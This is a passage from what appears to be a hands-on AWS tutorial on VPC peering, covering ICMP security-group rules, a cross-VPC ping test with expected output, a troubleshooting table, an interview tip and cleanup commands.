📸 **Screenshot 03** — Both Route Tables Showing Peering Target
> **What you should see**:
> - `prod-private-rt` has an active route: `10.1.0.0/16` → `pcx-xxxxxxxxx`
> - `shared-rt` has an active route: `10.0.0.0/16` → `pcx-xxxxxxxxx`
> **Verify**: Status of the route shows **Active** (not "Blackhole").

---

### Step 4 — Configure Firewalls & Test Private Communication

> 💡 **Why Security Group Configuration Is Required:**
> Even when routing is configured, AWS Security Groups block **all inbound traffic by default**. 
> Ping uses the **ICMP** protocol (not TCP/UDP). If you attempt to ping without explicitly allowing ICMP in the destination instance's Security Group, all ping packets will be silently dropped.

#### Part 1: Allow ICMP in the Target Security Group

**Via AWS Console:**
1. Open the **EC2 Console** → Click **Security Groups** in the left menu.
2. Select the Security Group attached to your **shared-vpc EC2 instance** (e.g. `shared-ec2-sg`).
3. Click the **Inbound rules** tab → Click **Edit inbound rules**.
4. Click **Add rule**:
   - **Type**: Select **All ICMP - IPv4** (Protocol: ICMP, Port: 0 - 65535).
   - **Source**: Select **Custom** → Enter `10.0.0.0/16` (the CIDR of `prod-vpc`).
   - **Description**: `Allow ping from prod-vpc instances`.
5. Click **Save rules**.

*(Optional: If you wish to test ping in the reverse direction, repeat this process on `prod-ec2-sg` allowing `All ICMP - IPv4` from source `10.1.0.0/16`)*

**Via AWS CLI:**
```bash
# Allow inbound ICMP echo requests from prod-vpc CIDR
aws ec2 authorize-security-group-ingress \
    --group-id $SHARED_SG \
    --protocol icmp \
    --port -1 \
    --cidr 10.0.0.0/16
```

#### Part 2: Execute the Private Connectivity Ping Test

1. Connect to the **prod-vpc private EC2 instance** using **AWS Systems Manager Session Manager**.
2. Identify the private IP of your **shared-vpc EC2 instance** (e.g., `10.1.1.25`).
3. Run the ping command from the private EC2 terminal:

```bash
# Send 4 ICMP ping packets across the VPC Peering connection
ping -c 4 10.1.1.x
```

**Expected Successful Terminal Output:**
```text
PING 10.1.1.25 (10.1.1.25) 56(84) bytes of data.
64 bytes from 10.1.1.25: icmp_seq=1 ttl=255 time=0.428 ms
64 bytes from 10.1.1.25: icmp_seq=2 ttl=255 time=0.312 ms
64 bytes from 10.1.1.25: icmp_seq=3 ttl=255 time=0.319 ms
64 bytes from 10.1.1.25: icmp_seq=4 ttl=255 time=0.305 ms

--- 10.1.1.25 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3065ms
rtt min/avg/max/mdev = 0.305/0.341/0.428/0.051 ms
```

> 🔍 **Key Observation**:
> Notice the round-trip latency is under **0.5 milliseconds** (`time=0.341 ms`). This proves that traffic is not routing through public internet or external gateways; it is flowing directly through AWS's ultra-low-latency private physical backbone fiber.

📸 **Screenshot 04** — Cross-VPC Ping Successful
> **What you should see**: `0% packet loss` with sub-millisecond ping response times.
> **Verify**: Source instance (`10.0.3.x`) communicates directly with destination (`10.1.1.x`) entirely over private IP addressing.

---

#### 🛠️ Troubleshooting Quick Guide

| Symptom | Probable Cause | Action to Resolve |
|---------|----------------|-------------------|
| `Destination Host Unreachable` | Missing route in source route table (`prod-private-rt`) | Check `prod-private-rt`: verify route `10.1.0.0/16` → `pcx-xxxx` exists and status is **Active**. |
| `100% packet loss` (Request timed out) | Target Security Group blocking ICMP, or missing return route | 1. Verify `shared-ec2-sg` has Inbound Rule allowing **All ICMP - IPv4** from `10.0.0.0/16`.<br>2. Verify `shared-vpc` route table has return route `10.0.0.0/16` → `pcx-xxxx`. |
| Route target displays `Blackhole` | Peering connection was deleted, expired, or rejected | Open **VPC Console** → **Peering connections**. Ensure Status is **Active**. |
| Overlapping CIDR error when creating peering | Both VPCs share identical or overlapping IP blocks | VPC Peering requires non-overlapping CIDRs (e.g. `10.0.0.0/16` and `10.1.0.0/16`). If ranges overlap, you must use **AWS PrivateLink** instead. |

---

🎯 **Interview Insight**: "VPC Peering vs Transit Gateway?"
> **Strong answer**: "Peering: direct 1-to-1 connection, no transitive routing, free (only data transfer). Transit Gateway: hub-and-spoke, transitive routing, supports 1000s of VPCs, $0.05/hour. Use peering for 2-3 VPCs, Transit Gateway for enterprise (10+ VPCs)."

---

## Cleanup

```bash
aws ec2 delete-vpc-peering-connection --vpc-peering-connection-id $PEERING_ID
# Delete shared VPC resources...
```
